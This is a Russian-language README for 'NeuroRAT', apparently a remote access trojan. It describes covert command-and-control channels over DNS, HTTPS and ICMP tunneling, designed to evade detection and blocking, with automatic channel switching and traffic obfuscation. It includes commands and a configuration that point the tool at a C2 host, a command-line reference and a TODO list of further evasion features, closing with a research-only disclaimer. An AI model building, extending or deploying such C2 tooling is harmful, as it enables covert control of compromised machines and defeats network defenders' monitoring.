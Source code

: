 # NeuroRAT

NeuroRAT - это продвинутая платформа для скрытой коммуникации, использующая различные каналы связи для обхода традиционных средств обнаружения и блокировки.

## Особенности

- **Множественные каналы связи**:
  - DNS-туннелирование - передача данных через DNS-запросы
  - HTTPS-туннелирование - имитация обычного веб-трафика
  - ICMP-туннелирование - обмен данными через ping-запросы
  
- **Устойчивость и адаптивность**:
  - Автоматическое переключение между каналами при обнаружении блокировки
  - Динамическая адаптация к сетевым условиям
  - Механизмы восстановления соединения

- **Безопасность**:
  - Шифрование данных (AES-256-GCM, ChaCha20-Poly1305)
  - Защита целостности данных
  - Обфускация трафика

- **Гибкая конфигурация**:
  - Настройка через JSON-файлы или командную строку
  - Возможность удаленного обновления конфигурации
  - Подробное логирование

## Архитектура

Проект состоит из нескольких ключевых компонентов:

1. **Channel Manager** - координирует работу различных каналов связи
2. **Модули туннелирования** - реализуют конкретные протоколы для скрытой передачи данных
3. **Crypto Module** - обеспечивает криптографическую защиту данных
4. **Main Module** - основной модуль, управляющий всей системой

```
src/
├── __init__.py
├── main.py             # Основной модуль
├── channel_manager.py  # Менеджер каналов связи
├── modules/
│   ├── __init__.py
│   ├── crypto.py       # Криптографический модуль
│   ├── dns_tunnel.py   # DNS туннелирование
│   ├── https_tunnel.py # HTTPS туннелирование
│   └── icmp_tunnel.py  # ICMP туннелирование
```

## Установка

### Требования

- Python 3.6 или выше
- Библиотека cryptography для шифрования
- Права администратора для ICMP-туннелирования

### Установка зависимостей

```bash
pip install cryptography
```

## Использование

### Запуск с базовыми параметрами

```bash
python src/main.py --c2-host example.com --primary-channel https
```

### Использование конфигурационного файла

```bash
python src/main.py -c config.json
```

### Пример конфигурационного файла

```json
{
  "c2_host": "example.com",
  "c2_ip": "192.168.1.1",
  "primary_channel": "https",
  "encryption_method": "aes",
  "channels": {
    "dns": {
      "query_interval": 1.5,
      "jitter": 0.3,
      "max_chunk_size": 30
    },
    "https": {
      "port": 443,
      "poll_interval": 5.0,
      "jitter": 0.3,
      "max_chunk_size": 1024,
      "paths": ["/", "/news", "/api"]
    },
    "icmp": {
      "poll_interval": 2.0,
      "jitter": 0.2,
      "max_chunk_size": 32
    }
  }
}
```

### Параметры командной строки

- `-c, --config` - путь к файлу конфигурации
- `--log-level` - уровень логирования (DEBUG, INFO, WARNING, ERROR)
- `--log-file` - файл для записи логов
- `--c2-host` - хост C2-сервера
- `--c2-ip` - IP-адрес C2-сервера (для ICMP)
- `--primary-channel` - основной канал связи (dns, https, icmp)
- `--encryption-method` - метод шифрования (aes, chacha20, xor)
- `--encryption-key` - ключ шифрования в формате base64

## Примечания по безопасности

- ICMP-туннелирование требует прав администратора (root)
- В производственной среде рекомендуется использовать сильные методы шифрования (AES, ChaCha20)
- XOR-шифрование следует использовать только в тестовых целях

## Расширение функциональности

Проект спроектирован модульно и легко расширяется. Для добавления нового канала связи:

1. Создайте новый модуль в директории `modules/`
2. Реализуйте в нем интерфейс, аналогичный существующим туннелям
3. Добавьте поддержку нового канала в `channel_manager.py`

## TODO

- Добавить поддержку SMB-туннелирования
- Реализовать сжатие данных перед шифрованием
- Добавить поддержку прокси-серверов для HTTPS-канала
- Улучшить механизмы обнаружения блокировки каналов
- Добавить поддержку IPv6

## Дисклеймер

Этот проект создан исключительно в исследовательских и образовательных целях. Использование данного ПО должно соответствовать законодательству вашей страны. Авторы не несут ответственности за любое неправомерное использование данного программного обеспечения. 